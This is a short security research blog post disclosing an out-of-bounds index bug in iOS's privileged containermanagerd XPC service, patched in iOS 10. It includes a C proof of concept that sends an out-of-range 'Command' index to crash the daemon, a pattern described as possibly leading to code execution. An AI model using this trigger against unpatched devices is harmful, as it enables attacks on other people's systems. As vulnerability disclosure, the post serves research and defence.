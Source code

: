 ```yaml
---
layout: post
title:  "[CVE-2016-????] iOS containermanagerd XPC array out of bound vulnerability"
date:   2016-06-17 12:00:00 +0800
categories: security android cve
---
```


Today I remembered about a iOS bug I had in `containermanagerd`, and I tought to check if it still was present in `iOS 10 beta`.

## Preliminary informations

`containermanagerd` is a privileged daemon on iOS that manages application containers and stuff.

`XPC` is a OS X/iOS IPC higher level mechanism compared to mach messages or MIG...

You may want to also check some research on `XPC`, such as [`Pangu` presentations][pangu-xpc], and `Ian Beer` Project Zero bugs, PoCs and presentation.

## Brief Explanation

If you want to follow along, you can also do it thanks to the "Apple leak" on `iOS 10`, where they forgot to encrypt a bunch of stuff in the `ipsw` of several models, including the `root filesystem` (so you can get the `containermanagerd` binary and drop it in `IDA Pro`) and `kernelcache`.

As you can imagine since I'm writing this post, the bug has been fixed in `iOS 10`.

The post will be fairly short, just dropping the trigger `PoC`.

The bug is fairly simple, we control a index used with an "array of commands", in which a command is a string and a function pointer (huh?), so we can make the program grab a "command" from a wrong location, possibly executing arbitrary code.

If you want to see more details about the bug, just drop a unpatched version of `containermanagerd` in IDA.

## Vulnerable Code

![containermanagerd vulnerable code](/assets/containermanagerd.jpg)

The red box is the new added check in iOS 10 on the array index, which comes from the input with `xpc_dictionary_get_uint64` with "Command" key (wrongly shown in IDA decompilation).

Later after this index is used to access the array I mentioned.

## PoC:

{% highlight c %}
#include "xpc/xpc.h"
#include <CoreFoundation/CoreFoundation.h>

int main(int argc, char **argv, char **envp) {
    xpc_connection_t client = xpc_connection_create_mach_service("com.apple.containermanagerd",
                                                                   NULL,
                                                                     0);
    xpc_connection_set_event_handler(client, ^(xpc_object_t event) {
        //connection err handler
    });
    xpc_connection_resume(client);
    xpc_object_t message = xpc_dictionary_create(NULL, NULL, 0);



    xpc_dictionary_set_uint64(message, "Command", 0x41414141);
    xpc_object_t reply = xpc_connection_send_message_with_reply_sync(client, message);

    NSLog(@"reply %@", reply);

    return 0;
}
{% endhighlight %}

[pangu-xpc]: https://www.blackhat.com/docs/us-15/materials/us-15-Wang-Review-And-Exploit-Neglected-Attack-Surface-In-iOS-8.pdf

